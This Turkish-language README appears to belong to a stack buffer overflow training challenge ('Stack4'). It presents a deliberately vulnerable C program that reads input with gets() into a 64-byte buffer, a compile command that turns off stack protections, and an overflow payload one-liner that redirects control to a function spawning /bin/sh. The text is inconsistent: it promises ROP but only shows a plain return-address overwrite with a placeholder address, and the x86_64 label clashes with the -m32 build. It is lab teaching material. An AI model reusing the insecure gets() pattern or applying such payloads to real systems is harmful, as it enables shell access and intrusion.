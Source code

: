 # Stack4 – Return Oriented Programming (ROP) Basics

## 🎯 Amaç

Bir buffer overflow ile `changeme` fonksiyonuna değil, ROP chain aracılığıyla özel bir sistem çağrısına yönlendirme yapmak.

---

## 🧪 Challenge Bilgileri

- Platform: Linux (x86_64)
- Zafiyet Türü: Stack-based Buffer Overflow + ROP
- Güvenlik Özellikleri: No PIE, No Canary, No NX

---

## ⚙️ Derleme

```bash
gcc -m32 -fno-stack-protector -z execstack -no-pie -o stack4 stack4.c
```

---

## 🔍 Kod Analizi

```c
void changeme() {
  printf("You changed control flow!\n");
  system("/bin/sh");
}

int main() {
  char buffer[64];
  gets(buffer);
  return 0;
}
```

---

## 🧪 Exploit Aşamaları

### 1. `changeme()` fonksiyon adresini öğrenin

```bash
objdump -d stack4 | grep changeme
```

### 2. Payload oluşturun

```bash
python3 -c 'print("A"*64 + "BBBB" + "\xef\xbe\xad\xde")' | ./stack4
```

### 3. GDB ile kontrol edin

```bash
gdb ./stack4
(gdb) run < <(python3 -c 'print("A"*64 + "BBBB" + "\xef\xbe\xad\xde")')
(gdb) info registers
```

---

## ✅ Beklenen Çıktı

```
You changed control flow!
$ whoami
```

---

## 📌 Notlar

- `gets()` fonksiyonu klasik overflow örneğidir.
- ROP zinciri için libc fonksiyonları kullanılabilir.
- NX devre dışı olduğu için shellcode da yerleştirilebilir.

---

## 📚 Kaynaklar

- https://exploit.education
- https://owasp.org/www-community/attacks/Buffer_overflow_attack
- https://ropemporium.com/
